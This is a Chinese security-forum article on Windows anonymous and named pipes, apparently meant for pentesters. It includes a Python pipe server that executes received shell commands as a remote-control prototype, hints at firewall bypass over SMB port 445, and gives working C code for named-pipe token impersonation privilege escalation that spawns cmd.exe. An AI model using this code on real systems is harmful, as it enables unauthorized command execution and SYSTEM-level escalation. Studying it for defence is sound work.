


# Pipe管道利用研究分享-先知社区

> **来源**: https://xz.aliyun.com/news/16227  
> **文章ID**: 16227

---

# Pipe管道利用

在 Windows 操作系统中，**管道（Pipe）** 是一种进程间通信（IPC）的机制，允许数据在两个进程之间传输。管道有两种主要类型：**匿名管道**和**命名管道**。以下是它们的详细介绍：

### 1. **匿名管道（Anonymous Pipe）**

### 特点：

* **单向通信**：数据只能单向流动（从一个进程的输出流到另一个进程的输入流）。
* **进程关系**：通常用于父子进程之间的通信。
* **使用限制**：只能在同一台计算机上使用，不能用于网络通信。

### 典型用例：

* 父进程创建匿名管道，并将其句柄传递给子进程，允许父子进程共享数据。
* 例如，使用匿名管道从子进程中捕获输出（如命令行工具输出）。

### 示例：

在 C/C++ 中，匿名管道可以通过 `CreatePipe` 创建：

```
HANDLE hReadPipe, hWritePipe;
SECURITY_ATTRIBUTES sa = { sizeof(SECURITY_ATTRIBUTES), NULL, TRUE };
if (CreatePipe(&hReadPipe, &hWritePipe, &sa, 0)) {
    // 使用管道进行数据通信
}

```

### 2. **命名管道（Named Pipe）**

### 特点：

* **双向通信**：支持双向或单向通信。
* **进程关系**：可以在不同的进程间通信，甚至可以跨网络通信（同一网络中的不同主机）。
* **命名机制**：每个命名管道都有一个唯一的名称，客户端可以通过名称访问它。
* **并发支持**：同一个管道可以同时被多个客户端连接。

### 典型用例：

* 用于客户端与服务器之间的通信。
* 网络通信：允许应用程序跨计算机传输数据。
* 实现复杂的进程间通信。

### 示例：

创建命名管道：

```
HANDLE hPipe = CreateNamedPipe(
    TEXT("\\\\.\\pipe\\MyPipe"),          // 管道名
    PIPE_ACCESS_DUPLEX,                   // 双向读写
    PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT, // 消息模式
    PIPE_UNLIMITED_INSTANCES,             // 最大实例数
    512, 512,                             // 输出和输入缓冲区大小
    0,                                    // 默认超时时间
    NULL                                  // 安全属性
);

if (hPipe != INVALID_HANDLE_VALUE) {
    // 等待客户端连接
    ConnectNamedPipe(hPipe, NULL);
    // 进行数据读写
}

```

客户端连接管道：

```
HANDLE hPipe = CreateFile(
    TEXT("\\\\.\\pipe\\MyPipe"),          // 管道名
    GENERIC_READ | GENERIC_WRITE,         // 读写权限
    0,                                    // 不共享
    NULL,                                 // 默认安全属性
    OPEN_EXISTING,                        // 打开现有管道
    0,                                    // 默认属性
    NULL                                  // 无模板文件
);

```

使用python实现一下这个功能

服务端代码：

```
import subprocess

import win32pipe
import win32file

PIPE_NAME = r"\\.\pipe\MyPipe"

def command_execute(command):
    """执行命令并返回输出"""
    try:
        result = subprocess.run(command, shell=True, capture_output=True, text=True)
        return result.stdout + result.stderr
    except Exception as e:
        return f"Error executing command: {str(e)}"

def start_pipe_server():
    print(f"Starting server at pipe: {PIPE_NAME}")

    # 创建命名管道
    pipe = win32pipe.CreateNamedPipe(
        PIPE_NAME,
        win32pipe.PIPE_ACCESS_DUPLEX,  # 双向通信
        win32pipe.PIPE_TYPE_MESSAGE | win32pipe.PIPE_WAIT,
        1,  # 最大连接数
        65536,  # 输出缓冲区大小
        65536,  # 输入缓冲区大小
        0,
        None
    )

    print("Waiting for client connection...")

    # 等待客户端连接
    win32pipe.ConnectNamedPipe(pipe, None)
    print("Client connected!")

    while True:
        try:
            print("Waiting for a message...")
            # 读取客户端发送的数据
            result, message = win32file.ReadFile(pipe, 4096)
            print(f"Received message: {message.decode('utf-8')}")

            if message.decode('utf-8').strip().lower() == "exit":
                print("Exit command received. Closing server.")
                break

            # 回复客户端
            output = command_execute(message.decode('utf-8').strip())
            win32file.WriteFile(pipe, output.encode('utf-8'))  # 返回结果
        except Exception as e:
            return f"Client auto close: {str(e)}"
    # 关闭管道
    win32file.CloseHandle(pipe)
    print("Pipe closed.")


if __name__ == "__main__":
    start_pipe_server()
```

客户端代码：

```
import win32file
import win32pipe

PIPE_NAME = r"\\.\pipe\MyPipe"


def connect_to_pipe():
    print(f"Connecting to pipe: {PIPE_NAME}")

    # 连接到命名管道
    handle = win32file.CreateFile(
        PIPE_NAME,
        win32file.GENERIC_READ | win32file.GENERIC_WRITE,
        0,
        None,
        win32file.OPEN_EXISTING,
        0,
        None
    )

    print("Connected to server.")
    return handle


def send_message(pipe_handle, message):
    print(f"Sending message: {message}")
    win32file.WriteFile(pipe_handle, message.encode('utf-8'))

    # 读取服务端的回复
    result, response = win32file.ReadFile(pipe_handle, 4096)
    print(f"Server response: {response.decode('utf-8')}")


if __name__ == "__main__":
    pipe = connect_to_pipe()

    # 发送测试消息
    send_message(pipe, "calc")
    send_message(pipe, "exit")  # 发送退出命令

    # 关闭管道
    win32file.CloseHandle(pipe)
    print("Client disconnected.")
```

执行效果（感兴趣可以开发为远控）：






其编程代码风格很像socks的编程，都是创建 ，监听，接收，返回，关闭。

## **管道实现的分离免杀**

可以跟倾旋的文章：<https://payloads.online/archivers/2019-11-10/5>

## 绕过防火墙的限制

### **远程命名管道**

* **使用 SMB 协议（Server Message Block）**：跨主机通信的命名管道依赖于 SMB 协议，而 SMB 本身默认在以下端口上工作：
  + **TCP 445**：这是现代 SMB 协议的默认端口。
  + **TCP 139**（较旧的 SMB 协议版本可能使用）。

可以想到在防火墙限制很多端口时可以选择445，因为大部分windows的445端口都是默认放行，感兴趣的话可以研究研究创建远程管道

### **准备工作**

* 确保 **SMB 服务（Server Message Block）** 已在两台主机上启用。通常，这涉及启用文件和打印机共享，并确保防火墙允许访问 **TCP 445** 端口。
* 确保在两台主机之间建立了网络连接，并且远程主机上存在适当的访问权限。
* 为了安全起见，可以配置命名管道的 **安全描述符（Security Descriptor）**。

必须想将IPC$进行net use 绑定才可以使用远程管道

## **msf的getsystem基本原理**

1. **命名管道**：是 Windows 系统进程间通信的一种方式，支持跨网络的通信。
2. **冒充客户端**：当具有高权限的客户端（如 SYSTEM）连接到攻击者创建的命名管道时，攻击者通过 `ImpersonateNamedPipeClient` 冒充该客户端的安全上下文，从而获得与客户端相同的权限。

### **攻击流程**

1. **创建命名管道**：使用 `CreateNamedPipe` 函数创建一个命名管道。
2. **等待客户端连接**：使用 `ConnectNamedPipe` 等待目标系统中的高权限进程连接到该管道。
3. **调用冒充函数**：使用 `ImpersonateNamedPipeClient` 函数切换当前线程的安全上下文为连接者的上下文。
4. **提权操作**：利用获得的高权限执行提权操作，如创建进程、修改文件等。

```
#include<stdio.h>
#include<windows.h>

int main() {

    HANDLE hPipe = NULL;

    HANDLE tokenHandle = NULL;
    HANDLE newtokenHandle = NULL;
    STARTUPINFO startupInfo;
    startupInfo.cb = sizeof(STARTUPINFO);
    PROCESS_INFORMATION processInformation;
    wchar_t recv_buf[1024] = { 0 };

    ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
    ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));

    hPipe = CreateNamedPipe(L"\\\\.\\pipe\\myServerPipe", PIPE_ACCESS_DUPLEX, PIPE_READMODE_BYTE | PIPE_WAIT, PIPE_UNLIMITED_INSTANCES, 1024, 1024, 0, NULL);

    if (hPipe == INVALID_HANDLE_VALUE) {
        printf("CreatePipe Failed");
        CloseHandle(hPipe);
    }
    printf("[+] CreateNamedPipe Successfully\n");

    //服务端在这里会进行堵塞，等待客户端进行连接
    if (ConnectNamedPipe(hPipe, NULL)) {
        printf("[+] ConnectNamedPipe Successfully\n");

//用于使调用线程模仿（impersonate）通过命名管道（named pipe）连接的客户端的安全上下文。
        if (ImpersonateNamedPipeClient(hPipe) == 0) {
            printf("[!] Error impersonating client %d\n", GetLastError());
            CloseHandle(hPipe);
            return -1;
        }
        printf("[+] ImpersonateNamedPipeClient Successfully\n");

//用于打开与当前线程相关联的访问令牌
        if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &tokenHandle)) {
            printf("[!] Error opening thread token %d\n", GetLastError());
            CloseHandle(hPipe);
            return -1;
        }
        printf("[+] OpenThreadToken Successfully\n");

//复制现有的访问令牌，并允许对新令牌进行一定的定制化处理。
        if (!DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityDelegation, TokenPrimary, &newtokenHandle)) {
            printf("[!] Error duplicating thread token %d\n", GetLastError());
            CloseHandle(hPipe);
            return -1;
        }
        printf("[+] DuplicateTokenEx Successfully\n");
        wchar_t cmdPath[MAX_PATH] = L"c:\\windows\\system32\\cmd.exe";

//这个函数允许在具有特定身份验证的情况下启动一个新进程
        if (!CreateProcessWithTokenW(newtokenHandle, LOGON_NETCREDENTIALS_ONLY, NULL, cmdPath, NULL, NULL, NULL, (LPSTARTUPINFOW)&startupInfo, &processInformation)) {
            printf("[!] CreateProcessWithTokenW Failed (%d).\n", GetLastError());
            CloseHandle(hPipe);
            return -1;
        }
        printf("[+] CreateProcessWithTokenW Successfully\n");

        CloseHandle(hPipe);
    }

    return 0;
}
```


这个原理也是大部分windows提权的最后一步。这相对简单，我们必须 “欺骗” 一个特权进程（或者只是我们想要模拟的用户）写入我们的命名管道......但是怎么做呢？

嗯，可能有很多场景，例如这个场景，基于 “真实故事” ：

* 您面临的是具有 Windows 集成身份验证的 dotnet Web 应用程序
* 您可以使用弱本地密码访问 Admin 后端
* 在管理面板中，您可以指定记录用户活动的日志文件
* 从管理面板，您可以获取 RCE（在这种情况下，可以上传 .aspx 文件）。
* Web 服务器在标准 IIS AppPool 用户下运行，该用户默认具有 SeImpersonate 权限。

综上所述，权限提升的步骤现在很明显：

* 为 Logfile 指定命名管道 （\.\pipe\logfile）
* 获取 IIS AppPoolUser 的 shell，创建命名管道并等待连接
* 模拟写入 Logfile 的经过身份验证的用户
* 如果是高权限用户，请使用他的令牌启动反向 shell...

可能写的地方有些理解错误，希望师傅们能够理解。
